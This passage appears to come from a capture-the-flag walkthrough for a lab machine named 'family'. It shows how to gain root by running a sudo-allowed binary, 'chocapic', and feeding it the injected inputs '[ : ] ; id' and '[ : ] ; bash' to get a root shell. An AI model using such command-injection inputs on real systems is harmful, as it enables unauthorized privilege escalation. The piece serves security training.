







4.10 Get root
1. Run the following command on baby's shell.
b👶by@family:/home/dad$ cd ..
b👶by@family:/home$ ls
b👶by@family:/home$ cd baby
b👶by@family:~$ ls -l
Output:

2. Run the following code to show the “chocapic” code.
b👶by@family:~$ cat chocapic
Output:

The “chocapic” with comments.

3. Run the following commands on baby's shell .
Note
echo $? returns the return value (exit status) of the last executed command (0 is usually success).
b👶by@family:/$ echo $?
b👶by@family:/$ :
b👶by@family:/$ echo $?
b👶by@family:/$ echo $?
b👶by@family:/$ Ctrl+C
The first command returns 1.
The third command returns 0.
4. On the “/home/baby” directory run “chocapic”.
b👶by@family:~$ sudo ./chocapic
Output:

5. Run on the baby command the following code.
baby command: [ : ] ; id
Output:

6. On the “/home/baby” directory run “chocapic”.
b👶by@family:~$ sudo ./chocapic
Output:
7. Run on the baby command the following code.
baby command: [ : ] ; bash
Output:

You'll get a shell.
8. Run the following command on the shell.
root@family:/home/baby# cd /root
root@family:~# ls
root@family:~# cat root.txt
Output:
